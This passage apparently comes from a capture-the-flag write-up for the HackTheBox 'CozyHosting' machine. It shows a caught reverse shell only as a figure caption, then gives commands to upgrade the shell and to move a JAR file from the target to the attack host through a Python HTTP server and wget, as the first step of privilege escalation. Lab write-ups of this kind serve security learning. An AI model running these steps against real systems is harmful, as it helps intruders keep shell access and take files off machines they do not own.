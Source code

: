 <figure><img src="../../../.gitbook/assets/cozyhosting_rce.png" alt=""><figcaption><p>Figure 10: Injecting the payload and catching the reverse shell.</p></figcaption></figure>

Before moving forward, we make our life easier by [upgrading our shell](../../../tools/tools/shells/upgrade.md#script-python).

```bash
# Upgrading our shell
which script
script /dev/null -c /bin/bash
^Z
echo $TERM && stty size
stty raw -echo; fg
stty rows 51 cols 209
export TERM=xterm
```

## Privilege Escalation

### System Enumeration

In the working directory there is a JAR file which contains a lot of files, so we will transfer it to our attack host and inspect it there (Figure 11).

```bash
# Starting a Python HTTP server on the target host
python3 -m http.server 8888
# Downloading the JAR file to the attack host
wget http://cozyhosting.htb:8888/cloudhosting-0.0.1.jar -O ch.jar
```
